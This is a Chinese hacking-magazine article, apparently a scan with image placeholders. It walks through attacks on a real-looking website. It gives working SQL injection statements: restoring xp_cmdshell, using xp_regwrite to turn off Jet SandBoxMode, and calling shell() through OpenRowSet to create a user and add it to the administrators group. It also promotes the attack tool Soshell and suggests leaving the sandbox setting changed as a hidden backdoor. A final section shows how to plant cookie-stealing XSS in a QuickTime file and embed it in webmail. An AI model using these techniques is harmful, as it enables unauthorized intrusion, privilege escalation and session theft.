

## 一个入侵的战争

是否有 SERV-U。很遗憾，没有 SERV-U，只有一个诺顿（图3）。上传了个 xplog70.dll 文件到 `d:\sunway\` 下，在注入点输入以下语句：

```sql
EXEC sp_addextendedproc 'xp_cmdshell','d:\sunway\xplog70.dll'
```

尝试着恢复 xp_cmdshell，虽然提示恢复成功，可是再用 xp_cmdshell 执行命令还是失败。于是分析权限：SA 仍有读写文件与注册表读写权限，只是不能直接执行命令。

文中回忆到 Access 注入与 VBS shell 函数利用思路，并指出关键在注册表项 `HKEY_LOCAL_MACHINE\SoftWare\Microsoft\Jet\4.0\Engine\SandBoxMode`，默认值为 2。

这个键值含义：0 表示关闭沙盒限制，1/2 为不同应用下启用沙盒，3 为更严格安全设置。

> ### 小知识：什么是沙盒模式？
> 沙盒模式是一种安全机制，会限制 Access 中可能触发危险操作的表达式/函数（如可执行系统层动作的函数），以避免恶意代码直接执行。

因此可先通过 `xp_regwrite` 修改“沙盒模式”开关，再利用 SQL/VBS shell 执行系统命令。

```sql
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE', 'SoftWare\Microsoft\Jet\4.0\Engine', 'SandBoxMode', REG_DWORD, 0;
```

> ### 小经验：
> 默认情况下 DB_Owner 并不一定能直接用 `xp_regwrite`；“沙盒模式执行命令”也并非对所有数据库都等价，需要结合具体库类型与访问方式。

文中说明该方法针对 Access 数据库，目标是连接到一个 Access 库（如 `%windir%\system32\ias\ias.mdb`）并构造语句执行命令。

```sql
Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0','Database=c:\windows\system32\ias\ias.mdb','select shell(''net user xxx 123 /add'')');
```

执行后可添加用户，再继续通过脚本注入方式提交修改后的 SQL。

```sql
http://www.xxx.com/cn/product/detail.asp?id=37;EXEC master.dbo.xp_regwrite ... ;

Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0','Database=c:\windows\system32\ias\ias.mdb','select shell(''net user xxx 123 /add'')');

Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0','Database=c:\windows\system32\ias\ias.mdb','select shell(''net localgroup administrators xxx /add'')');
```

随后通过 `net localgroup administrators` 验证用户已加入管理员组，说明提权成功。





## 一个人的战争



`c:\windows\system32\ias\ias.mdb`，在 CMD 后面的输入框里输入任意命令，单击“Execute”就可以执行了，能否被“切”就要看你的人品和运气喽！最后要感谢欠扁的指导，祝愿他情人节快乐：-）



> ### 小知识：如何根据加单引号后显示的错误信息判断是否存在注入漏洞
> 小菜们经常拿到地址打开一个网址就喜欢加个单引号，然后就说人家存在注入漏洞。这里很提倡细节判断：如果报错提示中出现明显的 SQL 语法错误信息、字段拼接异常等，才更可能存在注入；如果提示被过滤、类型转换错误（如 cInt 转换错误）等，也可能说明对方做了处理，不能简单下结论。



反正 kevin1986 已经退出这个圈子了，这项技术如果没有失传，今天我们也分享一下当年那个价值数千元的工具吧。打开 Soshell.exe 后如图7，在 Inj 后面填入注入点的 URL，默认为数字型；如果你遇到的是 `http://www.test.com/test.asp?class=` 这种字符型注入点，还需要把 Char 勾上。在 Mdb 中选择正确的数据库完整路径，假如对方是 Windows 2003 系统，这里就选择 `c:\windows\system32\ias\ias.mdb` ……

小编点评：一款价值上万的程序走遍神州一年，终于在今天公布出来给大家了，这让我感慨圈子里的分享精神还是值得提倡的。不少人总会想，某 SA 注入点才能够用本文的技术提权，也太苛刻了吧？可见作者说过，不少高手入侵某台服务器之后，会有意或无意地忘记把沙盒“开关”还原，这样就留下了一个非常隐蔽的后门。读者们平时入侵的时候，是独立利用这个非常隐蔽留下的后门，还是自己故意设下这个后门，就看你们自己了。

## 跨站杀手之 QuickTime 影片文件

SQL 注入攻击和跨站脚本攻击一直都是我等小菜们的最爱，原因很简单，容易操作。可是随着注入工具的成熟和防注入脚本的出现，我们就不得不想其它的办法了。比如借助 Flash 进行跨站攻击。近日在网上寻觅，我又找到了一个借助 QuickTime 影片文件作为载体来实现跨站攻击的方法，我们一起来看看。

影片文件通常由 Video tracks、Audio tracks 及 Text tracks 构成。从字面意思也能看出：Video tracks 提供影片的视频，Audio tracks 提供影片的音频，而 Text tracks 提供影片的字幕或歌词。Text tracks 下面有许多类型，其中的 HREF tracks 允许用户内嵌一个 URL 到影片中。这也正是我们需要的，把 XSS 语句（跨站代码，也可以算成简单代码）嵌入 URL 加到影片中，这样当影片播放时，我们的 XSS 语句也会执行。QuickTime Player 从版本 3 一直到最新版本都默认有此功能。我们就使用 QuickTime Pro 来新建一个 HREF tracks。在使用 QuickTime Pro 之前我们先注册下，否则有些功能是有限制的，如图1。



### 一、创建个包含跨站脚本的 Text Track

```text
<Ajavascript:alert(document.cookie)> T<>
```

这段代码是创建脚本的格式，其中 A 表示自动行为，不需要用户的交互操作，T 表示指定目标行为，我设置为空。它们都是固定的格式，而中间的 javascript 代码大家可能很眼熟吧？它将弹出一个对话框，显示出当前用户的 cookie。把这个文本保存为 xss.txt 文件。

### 二、找到一个 mov 文件插入跨站文本

使用 QuickTime Player 同时打开 xss.txt 文件和一个 mov 影片文件。选择安装 QuickTime 时自带的一个样例文件 Sample.mov，这个文件体积小巧，正适合我们使用，如图2。



在 QuickTime Player 打开的 xss.txt 窗口选择“编辑”→“全选”，“编辑”→“复制”。然后来到用 QuickTime Player 打开的 Sample.mov 窗口，选择“编辑”→“全选”，“编辑”→“添加到所选并缩放”。好了，现在我们可以看到 Sample.mov 文件已经内嵌了 Text track，如图3。





接下来我们可以创建 HREFTrack 了，选择“窗口”→“显示影片属性”，找到格式为 TEXT 的那条记录，点下“名称列”，输入 HREFTrack。注意这个 HREFTrack 大小写一定要正确，否则制作出来是没有效果的。然后取消这条记录前面的勾，如图4。



保存下我们的结果，点击“文件”→“保存”，新取一个文件名字“sample2.mov”，选择“另存为自包含影片”，如图5。这样一个带有跨站脚本的影音文件就生成了，很简单吧！我们来对比下 Sample.mov 与 Sample2.mov 的属性，Sample2.mov 文件的体积比原来的略大一些，如图6。



我们把制作好的 Sample2.mov 文件上传到自己的网站上，假设上传后的完整路径是 `http://www.mysite.com/Sample2.mov`。来到 126 的邮箱，写一封嵌入 Sample2.mov 的邮件（默认情况下，当浏览器浏览的网页中内嵌有 .mov 文件时，IE 浏览器会自动调用 QuickTime Player 进行播放），内嵌代码如下（图7）：

```html
<EMBED WIDTH="240" HEIGHT="200" CONTROLLER="TRUE" SRC="http://www.mysite.com/Sample2.mov" ... type="video/quicktime">
```

